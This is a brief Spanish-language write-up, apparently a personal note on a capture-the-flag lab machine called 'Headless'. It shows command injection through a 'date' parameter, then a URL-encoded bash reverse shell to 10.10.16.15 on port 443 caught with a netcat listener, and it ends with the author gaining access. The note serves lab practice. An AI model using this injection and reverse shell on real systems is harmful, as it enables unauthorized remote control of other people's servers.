 #commandinjection

------

![[Headless11.png]]
Vemos que si ponemos un ;date nos va a ejecutar el comando que le pongamos ya que nos tira el output de [[id]]


Ahora en el parametro *date* vamos a probar mandarnos una [[Reverse shell]] mientras estamos en escucha con [[nc -nlvp 443]]

vamos a agregar ``;bash -c "bash -i >%26 /dev/tcp/10.10.16.15/443 0>%261"``

![[Headless12.png]]

![[Headless13.png]]
Y ganamos acceso a la maquina